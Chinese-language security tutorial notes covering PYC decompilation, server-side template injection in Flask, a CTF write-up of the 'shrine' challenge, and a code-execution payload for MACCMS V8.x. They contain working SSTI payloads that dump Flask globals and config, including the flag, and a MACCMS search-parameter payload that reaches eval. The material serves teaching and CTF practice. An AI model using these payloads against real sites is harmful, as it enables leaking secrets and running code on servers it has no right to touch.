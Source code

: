 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116141246-4033f6bc-c868-4eab-817a-7339a3cd8685.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116140928-657104e2-6588-425d-8d37-98fbfd939b42.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116142809-de0355a0-1221-4c97-9118-16435a897c69.png)

```plain
#知识点：
1、PYC文件反编译
2、Python-Web-SSTI
3、SSTI模版注入利用分析
```

- PY反编译-PYC编译文件反编译源码

判断是不是python开发：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116140010-e066d4f1-046e-405a-ab0f-f8616d735288.png)

```plain
pyc文件是py文件编译后生成的字节码文件(byte code)，pyc文件经过python解释器最终会生成机器码运行。因此pyc文件是可以跨平台部署的，类似Java的.class文件，一般py文件改变后，都会重新生成pyc文件。
真题附件：http://pan.baidu.com/s/1jGpB8DS
反编译平台：
https://tool.lu/pyc/ 
http://tools.bugscaner.com/decompyle/
反编译工具：https://github.com/wibiti/uncompyle2
一般在CTF上，真实上很难遇到。类似.class文件等，PHP可以直接打包，但是.net和.class，.pyc需要解密才能得到源代码。
```

- SSTI入门-原理&分类&检测&分析&利用

```plain
1、什么是SSTI？有什么漏洞危害？
漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。
2、如何判断检测SSTI漏洞的存在？
-输入的数据会被浏览器利用当前脚本语言调用解析执行
3、SSTI会产生在那些语言开发应用？
-见上图
4、SSTI安全问题在生产环境那里产生？
-存在模版引用的地方，如404错误页面展示
-存在数据接收引用的地方，如模版解析获取参数数据

报错的时候存在数据接受，把变量输入进去，解析模板的时候出现问题。

web应用是有很多模板，它是一个显示样式的东西。
切换样式后，数据一样都存在的。
样式代码：
 <div class="center-content error">
 <h1>Oops! That page doesn't exist.</h1>
 <h3>%s</h3>
 </div> 
%s是一个可控的值，留给数据库去操作，取出数据去显示，不能写死。可以写上payload，让代码进行执行。
运行程序，访问本地5000端口。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116140837-da32a44b-a16d-4fdd-92bc-aa6eab64ae4f.png)

如果访问出错地址，

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116140633-dd9594ed-bff6-4a86-bfee-a9666dc1e50a.png)

源代码接受：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116140845-a2721988-e3ff-4618-99f0-956d54ce051f.png)

构造报错：http://192.168.0.113:5000/njkncd?404_url=1

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116141307-53870d37-16b6-4aa8-9458-66ff4daf8a2b.png)

访问http://192.168.0.113:5000/njkncd?404_url={{2-2}} ：2-2被代入python执行。

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116141449-f5bbd243-4587-4c8b-9af6-7f87dfdc1ceb.png)

- SSTI考点-CTF靶场-[WesternCTF]shrine

```plain
1、源码分析SSTI考点
2、测试判断SSTI存在
3、分析代码过滤和FLAG存储
4、利用Flask两个函数利用获取
https://blog.csdn.net/houyanhua1/article/details/85470175
url_for()函数是用于构建操作指定函数的URL
get_flashed_messages()函数是获取传递过来的数据
/shrine/{{url_for.__globals__}}
/shrine/{{url_for.__globals__['current_app'].config}}
/shrine/{{get_flashed_messages.__globals__}}
/shrine/{{get_flashed_messages.__globals__['current_app'].config}}
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116141363-7d32acd5-f4bb-40dc-9dbb-25b8d7e1b4d4.png)

```plain
发现关键性过滤
 s = s.replace('(', '').replace(')', '')
模板执行函数
render_template_string

判断存在：执行：http://b2014503-8276-429e-8d09-b1b38af83d43.node4.buuoj.cn:81/shrine/%7B%7B2-2%7D%7D
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116141526-0410b57f-77c9-47fa-a141-399b938ed814.png)

• 获取当前脚本所有的全局变量：http://b2014503-8276-429e-8d09-b1b38af83d43.node4.buuoj.cn:81/shrine/%7B%7Burl_for.__globals__%7D%7D

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116143464-8297094b-3107-45d1-8080-f858ab0fa37e.png)

```plain
发现当前正在使用的APP：
<class 'flask.helpers._PackageBoundObject'>, 'current_app': <Flask 'app'>
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116142821-257479b1-f8c3-4f2f-9df7-150ee2ee6121.png)

http://b2014503-8276-429e-8d09-b1b38af83d43.node4.buuoj.cn:81/shrine/%7B%7Burl_for.__globals__['current_app'].config['FLAG']%7D%7D  得到flag

- SSTI考点-CMS源码-MACCMS_V8.X执行

```plain
Payload:index.php?m=vod-search&wd={if-dddd:phpinfo()}{endif-dddd}
1、根据wd传递的代码找指向文件
2、index->vod->tpl->ifex->eval
3、构造Payload带入ifex并绕过后执行

m=vod-search
wd={if-dddd:phpinfo()}{endif-dddd} 

知道payload，推出漏洞成因
m传参：
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116142151-6c9e7868-367a-437c-8a28-26d1288958ef.png)

定位到be函数：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116142324-a3e7c79e-e408-48c7-b623-f80ce8b790a9.png)

发现包含文件：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116142982-615715c0-cb1b-4754-9036-93eedcceb259.png)

```plain
输出$ac，发现是vod文件，然后找到vod.php文件
在vod.php发现wd传参：
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116142850-a34c38b8-2a34-4b3c-8b39-ae671fd6d9cb.png)

```plain
跟踪tpl，指向ifex函数
跟踪ifex函数：
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721116143393-cb7a64b6-3799-4584-bd21-72ee253b8416.png)

发现命令执行代码段
